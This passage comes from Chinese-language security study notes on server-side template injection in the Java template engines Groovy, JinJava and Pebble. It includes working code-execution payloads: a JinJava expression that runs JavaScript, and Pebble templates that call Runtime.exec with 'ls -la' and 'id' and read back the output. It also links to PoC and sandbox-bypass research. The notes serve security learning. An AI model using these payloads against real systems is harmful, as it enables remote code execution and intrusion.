 在Groovy中有很多保留关键字，如`new、def`，def关键字参考python，用于定义方法，在Groovy中还可以定义变量。new关键字则是创建类对象。

关于Groovy的POC可以参考：<https://security.humanativaspa.it/groovy-template-engine-exploitation-notes-from-a-real-case-scenario/>

关于Groovy POC的研究可以参考Orange研究Jenkins时的思路：<https://devco.re/blog/2019/02/19/hacking-Jenkins-part2-abusing-meta-programming-for-unauthenticated-RCE/>

## jinjava

JinJava的语法是基于django的，呈现jinja模板。所以样式如`{{}}`。官网：<https://github.com/HubSpot/jinjava>

POC和EL的类似

```
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
```

## pebble

Pebble是一个受Twig启发的Java模板引擎，语法类似python的Jinja模板引擎。主要有两种形式的分隔符`{{ ... }}`和`{% ... %}`。前者用于输出表达式结果，后者用于流程控制。流程控制包含很多内置标签：`set、autoescape、block、flush、filter、for、from、if、import、include`等，参考：<https://pebbletemplates.io/wiki/tag/set/>

set标签用于定义变量，POC参考文章：<https://research.securitum.com/server-side-template-injection-on-the-example-of-pebble/>

```
{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}

// Java 9+
{% set cmd = 'id' %}
{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```

有个项目整理了很多表达式注入相关的payload，但是用于实战还要根据上述思路进行更改，搭配着看吧：<https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#expression-language-el---basic-injection>

另外，关于模板注入，基础用法可以看这篇： <https://portswigger.net/research/server-side-template-injection>

模板注入的沙盒绕过看这篇，文中提出了很多思路，针对Freemarker、Velocity、JinJava也给出了很多的绕过POC：<https://media.defcon.org/DEF%20CON%2028/DEF%20CON%20Safe%20Mode%20presentations/DEF%20CON%20Safe%20Mode%20-%20Alvaro%20Mun%CC%83oz%20and%20Oleksandr%20Mirosh%20-%20Room%20For%20Escape%20Scribbling%20Outside%20The%20Lines%20Of%20Template%20Security.pdf>
